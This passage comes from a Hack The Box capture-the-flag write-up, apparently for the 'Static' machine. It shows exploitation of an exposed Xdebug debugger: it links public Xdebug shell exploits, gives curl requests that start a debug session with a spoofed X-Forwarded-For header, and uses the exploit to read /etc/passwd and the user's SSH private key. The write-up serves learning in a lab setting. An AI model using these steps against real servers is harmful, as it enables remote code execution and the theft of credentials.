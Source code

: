 ## Exploitation

### Exploit

[https://github.com/gteissier/xdebug-shell](https://github.com/gteissier/xdebug-shell)

[https://github.com/nqxcode/xdebug-exploit](https://github.com/nqxcode/xdebug-exploit)

Sending a request using curl

```bash
─[us-dedivip-1]─[10.10.16.173]─[jpfguedes@htb]─[~/htb/Static/exploitation/web-segment]
└──╼ [★]$ curl '[http://172.20.0.10/vpn/panel.php?XDEBUG_SESSION_START=PHPSTORM](http://172.20.0.10/vpn/panel.php?XDEBUG_SESSION_START=PHPSTORM)' -H "X-Forwarded-For: 172.30.0.9"
```

And editing the exploit to bring the `/etc/passwd` file

![Untitled%2023.png](Untitled%2023.png)

We've got the base64 encode data

![Untitled%2024.png](Untitled%2024.png)

![Untitled%2025.png](Untitled%2025.png)

Decoding that string, we have

```bash
─[us-dedivip-1]─[10.10.16.173]─[jpfguedes@htb]─[~/htb/Static/exploitation/web-segment]
└──╼ [★]$ echo 'd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovaG9tZS93d3ctZGF0YTovYmluL2Jhc2g=' | base64 -d
www-data:x:33:33:www-data:/home/www-data:/bin/bash
```

Now, let's try to verify and get the id_rsa private key from the `.ssh` directory

```bash
─[us-dedivip-1]─[10.10.16.173]─[jpfguedes@htb]─[~/htb/Static/exploitation/web-segment]
└──╼ [★]$ curl '[http://172.20.0.10/vpn/panel.php?XDEBUG_SESSION_START=PHPSTORM](http://172.20.0.10/vpn/panel.php?XDEBUG_SESSION_START=PHPSTORM)' -H "X-Forwarded-For: 172.30.0.9"
```

![Untitled%2026.png](Untitled%2026.png)

And we got id_rsa private key
